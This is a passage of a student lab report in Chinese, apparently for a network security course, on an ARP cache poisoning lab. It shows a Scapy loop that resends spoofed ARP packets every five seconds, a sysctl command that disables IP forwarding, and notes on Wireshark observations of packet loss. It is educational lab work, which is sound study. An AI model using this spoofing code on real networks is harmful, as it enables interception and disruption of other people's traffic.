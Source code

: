```python
arp_B.hwdst="00:00:00:00:00:00" 
arp_B.pdst="10.9.0.6"
pkt_B= ether_B/arp_B
sendp(pkt_B)

try:  
    while (1):  
        time.sleep(5)  
        sendp(pkt_A) 
        sendp(pkt_B) 
except KeyboardInterrupt:  
    print('KeyboardInterrupt: Stopping the spoofed...')  
    sys.exit(0)
```





最好是不断地发送被欺骗的数据包（例如每5秒一次）；否则，假的条目可能会被真实的条目所取代。

A
![[大三下/网络与信息安全/实验二/attachments/20.png]]

B
![[大三下/网络与信息安全/实验二/attachments/21.png]]


Step 2 (Testing).
攻击成功后，请尝试在主机A和主机B之间相互ping，并报告您的观察结果。请在您的报告中显示Wireshark results。在执行此步骤之前，请确保主机M上的IP转发已关闭。您可以使用以下命令来执行此操作：

```
# sysctl net.ipv4.ip_forward=0
```

![[大三下/网络与信息安全/实验二/attachments/22.png]]

打开 wireshark 对 br-网桥进行监听


关闭IP forwarding
A ping B

![[大三下/网络与信息安全/实验二/attachments/23.png]]


B ping A
![[大三下/网络与信息安全/实验二/attachments/24.png]]

发现丢包率非常高

查看 wireshark 中包的情况
发现，丢包的都是 mac值错误的

A ping B 
![[25.png]]
